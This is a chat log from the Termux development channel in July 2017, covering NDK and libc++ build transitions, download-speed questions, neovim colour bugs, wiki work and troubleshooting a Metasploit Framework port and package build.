2017-07-06 19:12:36	fornwall	when -Werror=implicit-function-declaration is in, we can try out the solution in the ndk commit, to make fgetpos and friends be undefined when _FILE_OFFSET_BITS=64

2017-07-06 19:15:41	fornwall	because then we can see if packages are trying to use any of those functions in combination with _FILE_OFFSET_BITS=64

2017-07-06 19:17:22	fornwall	and if that is a common problem breaking a lot of packages, we can fall back to only supporting _FILE_OFFSET_BITS=64 when __ANDROID_API__ = 24, and have mariadb target android-24 on 32-bit

2017-07-06 19:18:07	fornwall	hm, that was a lot of text :). does it make sense?

2017-07-06 19:18:12	live_the_dreams	yes

2017-07-06 19:19:36	fornwall	it will be really nice to have -Werror=implicit-function-declaration in regardless of _FILE_OFFSET_BITS. the implicit function declaration in C is just a horrible thing, and has caused several bugs in termux packages before

2017-07-06 22:14:16	fornwall	the docker image has been updated with the libgnutls-dev package needed to build mariadb now

2017-07-06 22:15:16	fornwall	as for _FILE_OFFSET_BITS=64, it's disabled for now by patching away the support for it in <sys/cdefs.h>

2017-07-06 22:17:56	fornwall	it's just too many issues for now, with bugs in the ndk and the risk of mixing libraries and programs (where e.g. a library has been compiled in one way, and another program or library using it in another, that passes off_t or a derived type between them)

2017-07-06 22:18:19	fornwall	which includes things not in packages, built by users (pip/gem/custom builds)

2017-07-07 05:29:54	gitter	(andymarsden100) Hi, trying to use termux on android to install ipython/scipy but struggling with the basics.

2017-07-07 05:30:07	gitter	(andymarsden100) apt-get install build-essential fails

2017-07-07 05:30:47	gitter	(andymarsden100) Unable to locate package build-essential

2017-07-07 05:31:04	gitter	(andymarsden100) Any ideas (apt update already tried)

2017-07-07 05:38:38	live_the_dreams	easy solution there is a seperate repo that can install scipy directly github.com/its-pointless/gcc_termux

2017-07-07 07:08:31	live_the_dreams	i guess i should write a bit in the wiki...

2017-07-07 07:21:35	frumpylava	live_the_dreams: agreed ;)

2017-07-07 07:23:03	andchat	anyone use aria2? (aria2c)

2017-07-07 07:23:15	frumpylava	andchat: yes.

2017-07-07 07:23:27	andchat	do u know how to maximize the download speed to the highest possible? cus at the moment im using this aria2c -q "${URL[i]}" --split=512 --max-connection-per-server=16 --min-split-size=1M --max-concurrent-downloads=512 --continue --conditional-get=true --allow-overwrite=true --dir=/ -o "${destination[i]}" wich gets me 1.0mb/s to 1.4mb/s wich isnt enough on a 1 gb test file

2017-07-07 07:25:29	andchat	(note i get like 10 times less if i use aria2c -q "${URL[i]}" --continue --conditional-get=true --allow-overwrite=true --dir=/ -o "${destination[i]}")

2017-07-07 07:27:22	frumpylava	andchat: Wow. I have no idea. This doesn't seem Termux-specific. Is there an aria2 irc channel or a mailinglist?

2017-07-07 07:28:04	andchat	no ;-;

2017-07-07 07:29:22	BrainDamage	you /don't/ want multiple parallel conections if you can get away with it

2017-07-07 07:29:33	BrainDamage	each connection adds overhead

2017-07-07 07:30:10	andchat	what do u suggest instead?

2017-07-07 07:31:01	BrainDamage	if you get speedups doing massive parallel downloads, then the host is likely throttling speed per connection

2017-07-07 07:31:19	BrainDamage	which while might work for some specific hosts, won't in general

2017-07-07 07:31:39	andchat	ok

2017-07-07 07:32:19	BrainDamage	a few connections, do helpin general because they sometimes get routed trough different nodes inbetween so you can avoid slow nodes

2017-07-07 07:33:03	BrainDamage	but the endpoints are the same, if you're bottlenecked by the server or your own connection speed, multiple connections won't help, if anything, they'll make things worse

2017-07-07 07:35:28	andchat	but how do i increase the download speed

2017-07-07 07:36:11	BrainDamage	how fast is your network link?

2017-07-07 07:36:40	andchat	idk

2017-07-07 07:43:16	andchat	https://www.thinkbroadband.com/speedtest/1499427686584521755

2017-07-07 07:46:17	BrainDamage	that's a direct measurement, not the max capacity, max capacity could be higher, if it's accurate, for that value,your downloads are as good as they get and won't improve short of magic pixe dust

2017-07-07 07:47:24	andchat	;-;

2017-07-07 07:48:35	frumpylava	Aria2 shows download rate in MiB Which is Mebibytes, and that speedtest shows it in megabits per second. 10 Mbps is 1.2 MiB. So aria2 downloads right around the maximum for your connection.

2017-07-07 07:52:26	andchat	so 10 Mbps is 120 MiB?

2017-07-07 07:52:57	andchat	no

2017-07-07 07:52:57	frumpylava	No. 10 Mbps is 1.2 MiB

2017-07-07 07:53:54	andchat	whats a good website to test the max capacity

2017-07-07 07:54:01	BrainDamage	you can't use a website

2017-07-07 07:54:05	andchat	;-;

2017-07-07 07:54:23	BrainDamage	you ask your isp/router

2017-07-07 07:54:51	andchat	how

2017-07-07 07:56:27	BrainDamage	enter the status page for the router, and/or phone your isp and ask for help

2017-07-07 08:00:56	andchat	how do i do that

2017-07-07 08:01:04	andchat	i have Foxtel Hub

2017-07-07 08:02:31	BrainDamage	I'm not going to google for you

2017-07-07 08:02:33	andchat	https://www.foxtel.com.au/about-foxtel-broadband/foxtel-modem.html

2017-07-07 08:02:44	frumpylava	What is your ISP?

2017-07-07 08:04:20	andchat	idk

2017-07-07 08:04:43	frumpylava	https://www.whoismyisp.org/

2017-07-07 08:08:07	andchat	i have FoxtelHubMedia66EF wich has mode up to 1300mbps

2017-07-07 08:08:29	andchat	aswell as FoxtelHub66EF up to 300mbps

2017-07-07 08:09:15	andchat	Your Internet Service Provider (ISP) is 'Foxtel'. In some cases an ISP uses the network of another ISP

2017-07-07 08:09:24	andchat	Your external IP address is 172.192.210.52. This is an address used to identify your internet connection.

2017-07-07 08:09:31	andchat	The hostname of your internet connection is 'cpe-172-192-210-52.qld.foxtel.net.au'.

2017-07-07 08:14:04	frumpylava	andchat: Well, then you can call "131 999" and ask them.

2017-07-07 08:19:42	standard_	nu'

2017-07-07 08:19:46	standard_	nu*

2017-07-07 08:34:52	standard_	xDSL Link	Downstream	Upstream

2017-07-07 08:34:52	standard_	Connection Speed	19851 kbps	1077 kbps

2017-07-07 08:35:09	standard_	from http://www.routerlogin.net/RST_statistics.htm

2017-07-07 08:37:46	frumpylava	Seems about right. 20000 kbps are 20 mbps, which would come to aboit 2.4 MiB.

2017-07-07 08:38:41	frumpylava	You're only going to get your max capacity if the server is very close to you (in both location and nodes between you and it)

2017-07-07 08:38:59	andchat	ok

2017-07-07 08:40:39	andchat	is there a http and an ftp link to the same iso i can use'

2017-07-07 08:42:49	frumpylava	Well you can use torrents. With it you could come pretty close to the max capacity, if it's seeded well.

2017-07-07 08:50:13	andchat	ok

2017-07-07 14:16:46	dinoSalta	hi everyone

2017-07-07 14:16:50	dinoSalta	:)

2017-07-07 14:49:34	rods-tab3	.

2017-07-08 10:46:24	gitter	(vishalbiswas) @Auxilus looking into it right now

2017-07-08 13:06:12	gitter	(vishalbiswas) what's the fix for no member named 'to_string' in namespace 'std'

2017-07-08 16:07:49	gitter	(fornwall) @vishalbiswas about to_string, it's missing due to bugs in the old c++ library (libgnustl), https://github.com/android-ndk/ndk/issues/82

2017-07-08 16:09:43	gitter	(fornwall) that is supposed to be fixed by the transition to libc++ in the ndk, which was supposed to take place first in r12, then r13, then r14, then r15, and now in r16 according to the ndk roadmap :)

2017-07-08 16:10:06	gitter	(fornwall) the good news is that now it's actually _probably_ going to happen

2017-07-08 23:16:00	gitter	(vishalbiswas) @fornwall can you modify libprotobuf to not host build and instead install protobuf on build machine and use that?

2017-07-09 06:49:22	gitter	(noncom) is it possible to use Docker images under Termux?

2017-07-09 06:49:47	gitter	(noncom) I am new to Docker, but am imagining that that could be a neat way to organize things

2017-07-09 08:10:39	gitter	(vishalbiswas) No docker yet

2017-07-09 08:29:58	live_the_dream	need specific kernel drivers like overlay file system

2017-07-09 09:00:02	gitter	(vishalbiswas) I want to extend Termux:API. Want to add another api. Where do I make change?

2017-07-09 10:49:22	rods-tab3	iirc afaik they are just shell scripts; so learn shell or write your own shell

2017-07-09 10:50:40	gitter	(vishalbiswas) rods-tab3: only the bridge package is shell scripts, the real Termux:API is java. I want to know what rules should I follow for adding a new api

2017-07-09 11:54:50	gitter	(noncom) GUYS, everyone is welcome to contribute to Termux wiki!!! https://wiki.termux.com/wiki/Main_Page

2017-07-09 11:55:03	gitter	(noncom) if you have acheived something interesting with Termux

2017-07-09 11:55:10	gitter	(noncom) or made some piece of software work

2017-07-09 11:55:17	gitter	(noncom) let others know!

2017-07-09 11:55:47	gitter	(noncom) it would help making Termux more popular more quickly!

2017-07-09 11:56:18	gitter	(noncom) would possibly give you some feedback

2017-07-09 11:56:38	gitter	(noncom) and help you to keep a good shape!

2017-07-09 11:58:01	gitter	(noncom) start writing an article today, have something to build upon tomorrow

2017-07-09 14:10:40	gitter	(fornwall) @vishalbiswas is there a problem with the host build of protobuf?

2017-07-09 14:12:09	gitter	(fornwall) @vishalbiswas about termux:api, the app exposing the functionality to android intents is at https://github.com/termux/termux-api

2017-07-09 14:12:50	gitter	(fornwall) then the shell scripts in https://github.com/termux/termux-api-package wraps the java exposed functionality in a command line script

2017-07-09 14:13:15	gitter	(fornwall) @Neo-Oli great job with the wiki!

2017-07-09 16:31:07	frumpylava	@fornwall thanks. all praise goes to the contributors though.

2017-07-09 19:24:20	italo	Hello

2017-07-10 00:03:22	gitter	(vishalbiswas) @fornwall no, nothing wrong with hostbuild. I'm porting grpc for metasploit, which also requires protoc. I'm using the host built one from libprotobuf right now.

2017-07-10 00:26:56	gitter	(mklein994) I don't know if it's a Neovim thing or a Termux thing, but true colors isn't working anymore.

2017-07-10 01:26:43	gitter	(vishalbiswas) @mklein994 neovim was updated yesterday

2017-07-10 01:55:13	gitter	(mklein994) That's what I mean. I'm running version `0.2.1~20170709` (from `apt show neovim`).

2017-07-10 02:10:35	rods-tab3	today is still 20170709  -- for another 50 minutes

2017-07-10 02:55:59	frumpylava	rods-tab3: Welcome to time zones.

2017-07-10 03:00:01	rods-tab3	ha ha yea - can be confusing at times eg android has some files dated Dec 31 1969 at 16:00  -- when we all know the world/epoch begain at 00:00 Jan 1 1970

2017-07-10 03:01:12	rods-tab3	now its 20170710

2017-07-10 03:01:49	frumpylava	It's not tomorrow until it is on Baker Island.

2017-07-10 03:02:20	frumpylava	So it's still 20170710 for another 3 hours.

2017-07-10 03:02:28	frumpylava	*20170709

2017-07-10 03:26:49	gitter	(fornwall) @mklein994 neovim true color problem, is that only under tmux or also when run directly? I saw that there has already been a fix for running under tmux in neovim after the last update

2017-07-10 03:29:17	frumpylava	@fornwall, @mklein994: I had problems with :set guicursor after the update. But only in tmux. I had to switch from "TERM=screen-256color" to "TERM=tmux-256color"

2017-07-10 03:35:17	frumpylava	If anybody is near Switzerland in 2 weeks. On the 22.07.2017 14:00 I will be conducting a Workshop about Termux at this years ZeTeCo (which is a 4 day hacker camp in Schaffhausen, Switzerland)

2017-07-10 03:35:22	gitter	(noncom) I apologise if I am asking something obvious, but what is the state of JDK under Termux?

2017-07-10 03:36:04	gitter	(noncom) is it possible to get a Java dev  going in Termux?

2017-07-10 06:34:03	gitter	(Auxilus) @vishalbiswas I don't recall that I had error with grpc when you instructed me 5 months ago

2017-07-10 06:56:34	gitter	(Auxilus) I'm still having same errors after following timwr's instructions on the issue

2017-07-10 07:49:43	gitter	(mklein994) @fornwall both. Steps to reproduce: `$ vim -u NORC --cmd 'set tgc'`:

2017-07-10 07:49:43	gitter	(mklein994) ```vim

2017-07-10 07:49:43	gitter	(mklein994) :source $VIMRUNTIME/syntax/colortest.vim

2017-07-10 07:49:43	gitter	(mklein994) ```

2017-07-10 07:58:51	gitter	(mklein994) @noncom I remember @vishalbiswas was working on openjdk 9; I'm not sure where things are at there.

2017-07-10 08:04:08	gitter	(mklein994) There’s `openjdk-9-jre-headless` in disabled packages…

2017-07-10 08:07:39	frumpylava	I'm really liking how the termux wiki is comming along. Thanks to all those who contribute.

2017-07-10 08:09:17	live_the_dream	im sorry that even though english is my first language that i still suck at it

2017-07-10 08:29:13	gitter	(Auxilus) @vishalbiswas is libgrpc available in termux ?

2017-07-10 10:25:50	frumpylava	Is there a way yet to enable and disable the camera led?

2017-07-10 11:08:35	BrainDamage	random idea, instead of 5000 tools to do the translation to the phone api, wouldn't it be better to expose them as a filesystem like the rest of linux kernel?

2017-07-10 11:09:02	BrainDamage	even without using fuse, you could watch for file read/write and simply read the data

2017-07-10 11:37:24	gitter	(vishalbiswas) @Auxilus I have a pull request for it, but, the gem is still not installable yet. I'm working on it.

2017-07-10 11:38:37	gitter	(vishalbiswas) @noncom Java 9 is available but not very stable. AArch64 is not available altogether. AArch64 users will need to use ARM

2017-07-10 12:02:40	gitter	(mklein994) @noncom is there a prebuilt package for ARM available to try?

2017-07-10 12:15:14	vitruzicka66	Hello

2017-07-10 12:17:48	vitruzicka66	Your app is great, thanks

2017-07-10 12:17:48	timwr	<3

2017-07-10 12:25:06	rods-tab3	[09:10] (rods-tab3) will you review my code ?  https://m.xkcd.com/1833/

2017-07-10 12:32:55	timwr	I have a question, how would someone (me?) package a source code project (metasploit) so that pkg install metasploit-framework would work?

2017-07-10 12:33:27	timwr	the following commands: https://github.com/timwr/metasploit-framework/blob/termux/termux get it working

2017-07-10 12:33:40	timwr	but I'd like people to simply be able to run pkg install metasploit (rather than that script)

2017-07-10 13:04:29	gitter	(vishalbiswas) timwr: metasploit is a headache for packaging. best of luck

2017-07-10 13:05:19	gitter	(vishalbiswas) @mklein994 are you asking me?

2017-07-10 13:51:15	gitter	(mklein994) Sure, if you have a Java package. Does it work on ARM?

2017-07-10 15:53:23	jellybeam	after updating to latest neovim package it seems that colorschemes are not working anymore, has anyone noticed the same behaviour?

2017-07-10 20:34:17	gitter	(mklein994) jellybeam: yeah. It's actually really annoying.

2017-07-10 21:01:43	gitter	(vishalbiswas) @mklein994 https://drive.google.com/folderview?id=0B8Q4yBRb9PSHQ2lfVVYzLU5JelE only arm package is up-to-date

2017-07-10 22:42:47	gitter	(vishalbiswas) live_the_dream: did you add your repo's info in the wiki? I want to add Rust instructions

2017-07-10 22:44:29	live_the_dream	change ehat ever

2017-07-10 22:46:22	gitter	(vishalbiswas) live_the_dream: where's it? cannot find it

2017-07-10 22:47:27	live_the_dream	under scipy

2017-07-10 22:51:39	live_the_dream	oh yeah about libgrpc ... from the looks of it we probably should have a termux_setup_protobuf

2017-07-10 22:52:15	gitter	(vishalbiswas) live_the_dream: or just add protobuf to setup-ubuntu.sh

2017-07-10 22:52:47	gitter	(vishalbiswas) live_the_dream: you are a 'he', right?

2017-07-10 22:53:32	live_the_dream	yeah

2017-07-10 22:53:32	live_the_dream	last time i checked

2017-07-10 22:58:32	gitter	(vishalbiswas) live_the_dream: what are the most important packages in your repo?

2017-07-10 22:58:46	gitter	(vishalbiswas) adding more info in package management section

2017-07-10 22:59:39	live_the_dream	people would be most intersted in scipy gcc-7 (there was a bug fix for arm) and R

2017-07-10 23:00:39	live_the_dream	but i don't have any data on what is used

2017-07-10 23:01:54	gitter	(vishalbiswas) live_the_dream: package name of R is `r-cran`?

2017-07-10 23:02:01	live_the_dream	yeah

2017-07-10 23:04:12	gitter	(vishalbiswas) live_the_dream: add instructions https://wiki.termux.com/wiki/Package_Management

2017-07-10 23:10:14	gitter	(vishalbiswas) also simplified https://wiki.termux.com/wiki/Installing_Scipy_The_Easy_Way

2017-07-11 04:22:34	frumpylava	@fornwall we're having Hash sum mustaches again.

2017-07-11 04:39:31	gitter	(Auxilus) @vishalbiswas I don't have libgrpc installed , also looks like it's not in repo , so how can I follow :- https://wiki.termux.com/wiki/Metasploit#grpc ?

2017-07-11 05:13:14	gitter	(Auxilus) @vishalbiswas can u share libgrpc .deb file ?

2017-07-11 05:45:33	BrainDamage	please don't suggest curlpipesh as a method for installation

2017-07-11 05:46:00	fornwall	frumpylava: fixed now?

2017-07-11 05:46:28	frumpylava	fornwall: According to the guy on github, yes.

2017-07-11 05:47:51	BrainDamage	you can even detect the usage of that, and use it to toggle delivery of malicious scripts: https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/

2017-07-11 05:48:50	BrainDamage	but it's just bad practice to run random shell code without reviewing

2017-07-11 05:49:50	BrainDamage	also, semi-related, are termux packages signed?

2017-07-11 05:50:13	BrainDamage	( I'm not familiar enough with apt to check )

2017-07-11 05:59:39	fornwall	BrainDamage: the termux.net apt repository (which contains the sha-256 checksum of the .deb files) is signed, which apt uses when installing packages

2017-07-11 06:00:07	BrainDamage	k, thanks

2017-07-11 06:00:40	fornwall	but the .deb files themselves are not directly signed (I haven't looked into it yet, and as long as packages are installed with apt it's not critical to sign the .deb files)

2017-07-11 06:01:24	BrainDamage	gpg signatures themselves are a signature on a hash

2017-07-11 06:02:03	BrainDamage	so this turns as a signature on a hash of a hash

2017-07-11 06:06:36	BrainDamage	live_the_dream: since you're packaging sc, you might want to add https://github.com/andmarti1424/sc-im which has added several nice features

2017-07-11 06:09:30	BrainDamage	the plotting fuctions are quite nice, esp if you have a sixel capable terminal, then you actually have proper pics

2017-07-11 06:31:27	gitter	(fornwall) about neovim true colors, it seems to be a problem with neovim git master, https://github.com/neovim/neovim/issues/7003. hopefully it's fixed later today so we can just push an updatety

2017-07-11 06:31:49	gitter	(fornwall) perhaps we should switch away from following neovim HEAD, and instead package the latest tagged release?

2017-07-11 06:35:06	live_the_dream	sixel ... if only

2017-07-11 06:54:13	BrainDamage	well, at least from ssh, it works

2017-07-11 06:54:27	BrainDamage	plus there's also the ascii plots

2017-07-11 06:54:39	BrainDamage	https://github.com/andmarti1424/sc-im/raw/freeze/screenshots/scimp3.png?raw=true

2017-07-11 07:02:35	live_the_dream	hmm

2017-07-11 07:02:35	live_the_dream	wordexp.h

2017-07-11 07:02:35	live_the_dream	sc-im relies on glibc

2017-07-11 07:02:38	live_the_dream	where as sc does not

2017-07-11 07:09:39	frumpylava	@fornwall I agree with switching Neovim to releases. I think we should do that starting with the next release.

2017-07-11 07:35:48	frumpylava	Then we can switch to neovim v0.2.1 when it gets released.

2017-07-11 07:56:26	Auxilus	is libgrpc on repo yet ? ( I saw merged status of PR )

2017-07-11 08:45:15	Jookia_	Hello! Is there a way to run a Termux command in the background at boot (maybe from root?)

2017-07-11 09:19:52	Jookia_	Nevermind, worked it out - 'am startservice -n com.termux/com.termux.app.TermuxService -a com.termux.service_execute -d '/data/data/com.termux/files/home/.shortcuts/tasks/one' --ez com.termux.execute.background True'

2017-07-11 10:41:03	gitter	(noncom) @mklein994 I don't know... that's what I am wandering

2017-07-11 10:41:12	gitter	(noncom) want to be able to code java in Termux

2017-07-11 19:47:00	gitter	(mklein994) About Neovim ~~truecolors~~ colors not working: I just built the latest neovim-git on Arch Linux, `ssh`ed into it from Termux, and same problem. It works in tmux though. I like the idea of following releases; having an editor break like this is kind of annoying, especially if you use it to fix bugs in _other_ programs.

2017-07-11 20:53:26	live_the_dream	mklein994 so its a terminfo issue?

2017-07-11 22:58:27	gitter	(vishalbiswas) frumpylava: is there a way to enable uploads of `.patch` files? A user is having trouble while creating the patch in metasploit instructions.

2017-07-11 23:47:00	gitter	(Auxilus) @vishalbiswas I'm having error while using extconf.patch to build grpc

2017-07-11 23:53:46	Auxils	@vishalbiswas , it says it can't open file /data/data/com.termux/files/home/extconf.rb

2017-07-12 00:01:02	gitter	(vishalbiswas) @Auxilus fixed, try again

2017-07-12 00:04:13	Auxils	okay thanx

2017-07-12 00:09:27	Auxils	@vishalbiswas , worked

2017-07-12 00:11:56	Auxils	@vishalbiswas is there any possibility of implementing wine32 (not win32) package ?

2017-07-12 00:12:16	Auxils	@vishalbiswas

2017-07-12 00:12:30	Auxils	grpc is not installing

2017-07-12 00:12:37	Auxils	still the same errors

2017-07-12 00:12:54	Auxils	it says it cant find nameser.h

2017-07-12 00:13:38	gitter	(vishalbiswas) @Auxilus you need to install the locally compiled gem

2017-07-12 00:13:45	gitter	(vishalbiswas) not gem install grpc

2017-07-12 00:14:31	Auxils	aye , thats what ive done , i did `gem install grpc-1.4.1.gem`

2017-07-12 00:15:08	gitter	(vishalbiswas) libgrpc is installed? did you apply the patch correctly?

2017-07-12 00:15:31	Auxils	yes i did all that , i even installed libgrpc-dev

2017-07-12 00:15:53	Auxils	should I pastebin .out ?

2017-07-12 00:17:02	gitter	(vishalbiswas) instead redo the grpc step and show me an asciinema

2017-07-12 00:17:15	Auxils	of ?

2017-07-12 00:17:25	gitter	(vishalbiswas) you doing it

2017-07-12 00:17:26	Auxils	just gem installation or patching too ?

2017-07-12 00:17:33	gitter	(vishalbiswas) patching too

2017-07-12 00:17:47	Auxils	okay , 1 sec  ...

2017-07-12 00:24:07	Auxils	@vishalbiswas , its installed , apparently there was some problem with the patch i did :p

2017-07-12 00:25:43	Auxils	@vishalbiswas , Do I have to run it under termux-chroot ?

2017-07-12 00:26:08	gitter	(vishalbiswas) @Auxilus no just follow the fix shebangs section

2017-07-12 00:26:28	Auxils	aye , i couldn't run msfconsole

2017-07-12 00:27:24	Auxils	when i try to run the shebang command , it says can't recognise -executable

2017-07-12 00:27:51	gitter	(vishalbiswas) did you install findutils?

2017-07-12 00:27:56	gitter	(vishalbiswas) its in prequisities

2017-07-12 00:28:12	Auxils	wait ill see

2017-07-12 00:28:58	Auxils	nope still the erro

2017-07-12 00:29:29	Auxils	find: unrecognized: -executable

2017-07-12 00:29:43	gitter	(vishalbiswas) apt install findutils

2017-07-12 00:29:51	Auxils	I did that

2017-07-12 00:30:15	Auxils	findutils is installed

2017-07-12 00:31:11	gitter	(vishalbiswas) @Auxilus `ls -l \`which find\``

2017-07-12 00:31:21	gitter	(vishalbiswas) ignore that

2017-07-12 00:31:38	gitter	(vishalbiswas) ```

2017-07-12 00:31:59	gitter	(vishalbiswas) @Auxilus do ls -l `which find`

2017-07-12 00:31:59	gitter	(vishalbiswas)

2017-07-12 00:32:13	Auxils	k

2017-07-12 00:33:43	Auxils	.

2017-07-12 00:34:04	Auxils	looks like find is in /bin/applets/

2017-07-12 00:34:18	Auxils	also there is some' like -> ./busybox

2017-07-12 00:35:36	gitter	(vishalbiswas) if you installed findutils, that shouldn't be the output

2017-07-12 00:36:05	gitter	(vishalbiswas) its using the busybox one. can u reinstall findutils

2017-07-12 00:36:12	Auxils	okay

2017-07-12 00:36:54	Auxils	still same op

2017-07-12 00:37:11	gitter	(Auxilus) localhost : ls -l `which find`

2017-07-12 00:37:11	gitter	(Auxilus) lrwxrwxrwx    1 u0_a96   u0_a96          10 Jun 28 16:57 /data/data/com.termux/files/usr/bin/applets/find -> ../busybox

2017-07-12 00:37:57	Auxils	I did `apt remove findutils` then `apt install` again

2017-07-12 00:38:52	gitter	(vishalbiswas) okay then use $PREFIX/bin/find instead

2017-07-12 00:41:05	Auxilus	@vishalbiswas

2017-07-12 00:41:10	Auxilus	?

2017-07-12 00:41:25	gitter	(vishalbiswas) check the wiki, modified it

2017-07-12 00:41:37	Auxilus	k

2017-07-12 00:43:10	Auxilus	.

2017-07-12 00:44:12	Auxilus	what about wine32 package? can we have them in termux ?

2017-07-12 00:47:43	Auxilus	@vishalbiswas , msfconsole is not booting up its stuck at ./msfconsole

2017-07-12 01:08:32	Auxilus	@vishalbiswas I got wall of errors here

2017-07-12 01:21:55	gitter	(vishalbiswas) @Auxilus ?

2017-07-12 01:22:00	gitter	(vishalbiswas) errors?

2017-07-12 01:24:58	gitter	(Auxilus) Aye , wall of errors

2017-07-12 01:25:54	gitter	(Auxilus) Wait

2017-07-12 01:26:52	gitter	(Auxilus) https://pastebin.com/z0KFfQH0

2017-07-12 01:26:52	gitter	(Auxilus) Here

2017-07-12 01:26:56	gitter	(Auxilus) Take a look

2017-07-12 01:27:35	gitter	(vishalbiswas) redo network_interface

2017-07-12 01:27:43	gitter	(vishalbiswas) it was changed earlier

2017-07-12 01:29:28	gitter	(Auxilus) Kay

2017-07-12 01:29:39	gitter	(Auxilus) Remove old gem first ?

2017-07-12 01:30:06	gitter	(vishalbiswas) yes

2017-07-12 01:32:54	gitter	(Auxilus) patching file ext/network_interface_ext/netifaces.c

2017-07-12 01:32:54	gitter	(Auxilus) localhost : gem build network_interface.gemspec

2017-07-12 01:32:54	gitter	(Auxilus) WARNING:  ./netifaces.patch is not world-readable

2017-07-12 01:32:54	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=5965b486bc46472974ded9e6]

2017-07-12 01:32:58	gitter	(Auxilus) Ignore ?

2017-07-12 01:33:48	live_the_dream	oh BrainDamage sc-im is up tell me how broken it is?

2017-07-12 01:36:09	gitter	(Auxilus) @vishalbiswas thanks , metasploit is working now , I'll test the database usage

2017-07-12 01:39:44	gitter	(Auxilus) @vishalbiswas why don't we have msfdb in metasploit?

2017-07-12 05:47:42	frumpylava	hmm... ever since I updated to android 7.1.1 mpv's audio output is really stuttery.

2017-07-12 07:57:34	BrainDamage	live_the_dream: after some light usage, it seems to work

2017-07-12 08:22:29	live_the_dreams	did the standard thing ... got the musl libc stuff

2017-07-12 10:19:23	live_the_dreams	nb2b

2017-07-12 11:40:22	gitter	(vishalbiswas) is samba possible in termux?

2017-07-12 12:50:41	vitruzicka66	smbclient doesn't work?

2017-07-12 18:54:50	live_the_dream	samba requires root if recall vish

2017-07-12 22:39:00	gitter	(vishalbiswas) live_the_dream: I have root access, though. Really tired of using scp

2017-07-13 01:28:16	tomty89	is the "system" in termux english only?

2017-07-13 01:29:14	tomty89	coz it seems to me that setting LANG to anything else doesn't make difference

2017-07-13 01:29:35	gitter	(vishalbiswas) tomty89: yes

2017-07-13 01:30:31	tomty89	ahh okay thanks @vishalbiswas

2017-07-13 02:28:25	frumpylava	Sigh... I should just go back to Android 5 and stay there forever.

2017-07-13 02:29:25	live_the_dreams	why?

2017-07-13 02:29:33	live_the_dreams	was android was being mean?

2017-07-13 02:30:21	frumpylava	yeah. Every time I update my phone I have to create and issue starting with "I recenlty updated my Android...". And every time it's becoming more and more obscure shit that's basically impossible to debug.

2017-07-13 02:33:59	frumpylava	Like the random restarts with weechat and now stuttering with mpv over bluetooth.

2017-07-13 02:48:29	frumpylava	live_the_dream_s: but it works with mpd, so I am now trying to convert my music setup to that. I'll somehow have to implement https://github.com/Neo-Oli/Termux-Mpv with mpd as well.

2017-07-13 02:49:38	live_the_dream_s	odd

2017-07-13 02:50:39	live_the_dream_s	you can just use a mpd client

2017-07-13 02:50:39	live_the_dream_s	as the player

2017-07-13 02:50:39	live_the_dream_s	lots of those in playstore

2017-07-13 02:53:08	frumpylava	live_the_dream_s: If at all possible I want to avoid that.

2017-07-13 02:54:32	frumpylava	Someday I am just going to build my own phone with a raspberry pi zero

2017-07-13 02:55:00	live_the_dream_s	thats all i ever wanted

2017-07-13 18:29:01	fornwall	I've just pushed a transition from libgnustl (the gnu c++ library that's being dropped from the NDK and is somewhat broken and outdated) to libc++

2017-07-13 18:29:23	fornwall	this will make things as std::to_string and other c++ features work

2017-07-13 18:31:21	fornwall	as it's a bad idea to mix gnustl and libc++ in a running program as they use different binary interfaces, people building packages should run ./clean.sh to get fresh builds

2017-07-13 18:32:46	fornwall	and until the transition is pushed to the package repository (hopefully within a day or two), and every c++ using program and library is rebuilt against libc++, it won't work to install c++-using packages built now

2017-07-13 18:35:31	fornwall	and after the transition goes live, c++-using programs and libraries built on the device that links against c++ libs in termux packages probably needs to be rebuilt, so that the c++ standard library in the built binaries match the one in termux packages

2017-07-13 20:20:54	live_the_dreams	need to update everything because libc++ ...

2017-07-13 21:05:38	gitter	(chadmpaul) Jehan: I'm looking for help on that as well.  EACCESS anywhere I try to install an npm package

2017-07-13 23:05:18	gitter	(vishalbiswas) fornwall: thanks for this!

2017-07-13 23:15:45	live_the_dreams	docker file needs updating ?

2017-07-13 23:30:12	live_the_dreams	also fix the mpd build since it produces a script that preloads libgnustl_shared

2017-07-14 00:12:36	rods-tab3	do we have octave ?  https://www.gnu.org/software/octave/doc/interpreter/index.html#SEC_Contents

2017-07-14 00:19:43	gitter	(vishalbiswas) rods-tab3: from its-pointless' repo

2017-07-14 00:23:00	rods-tab3	thnx

2017-07-14 00:26:23	gitter	(vishalbiswas) anybody have ubuntu zesty or the docker image? what version of llvm does apt install llvm install?

2017-07-14 00:34:51	frumpylava	@vishalbiswas 1:4.0-34ubuntu2

2017-07-14 00:35:03	gitter	(vishalbiswas) frumpylava: thanks

2017-07-14 00:35:26	gitter	(vishalbiswas) did you try php-mysql again

2017-07-14 00:57:43	gitter	(vishalbiswas) fornwall: /home/vishal/.termux-build/_lib/15.1-arm-21-v9/include/c++/4.9.x/cstddef:43:25: fatal error: stddef.h: No such file or directory

2017-07-14 01:11:11	frumpylava	@vishalbiswas Yeah, the current build of mariadb is incompatible because it doesn't have libmysqlclient

2017-07-14 01:11:31	gitter	(vishalbiswas) frumpylava: did you read my reply on that pull request?

2017-07-14 01:14:07	frumpylava	yeah, bit I don't understand it yet. I will have to look into it. Or can you explain what I'd need to do?

2017-07-14 01:14:40	gitter	(vishalbiswas) frumpylava: build mariadb yourself, then build php. done

2017-07-14 01:15:00	gitter	(vishalbiswas) libmysqlclient is built as a static lib now

2017-07-14 01:15:13	frumpylava	but i am building mariadb myself.

2017-07-14 01:15:56	gitter	(vishalbiswas) frumpylava: do you have /data/data/com.termux/files/usr/lib/libmysqlclient.a

2017-07-14 01:16:47	gitter	(vishalbiswas) don't link php-mysql against libmariadb, instead use libmysqlclient

2017-07-14 02:15:40	rods-tab3	i don't see octive here https://github.com/its-pointless/termux-packages/tree/master/packages    ...  am i looking in the wrong place ?

2017-07-14 02:16:26	frumpylava	@vishalbiswas I don't have libmysqlclient.a after building mariadb.

2017-07-14 02:50:52	frumpylava	What's the status of ghostscript?

2017-07-14 03:51:29	gitter	(fornwall) @vishalbiswas when do you get the `stddef.h` error?

2017-07-14 05:45:47	gitter	(oguz-ismail) how can I compile android shared objects from termux with clang ?

2017-07-14 07:44:20	joshd	How does one use syscmd/esyscmd in m4? It seems not to work, perhaps because of the weird path to the shell?

2017-07-14 07:55:23	live_the_dreams	@vishalbiswas  rustc looks for  gnustl and fails ...

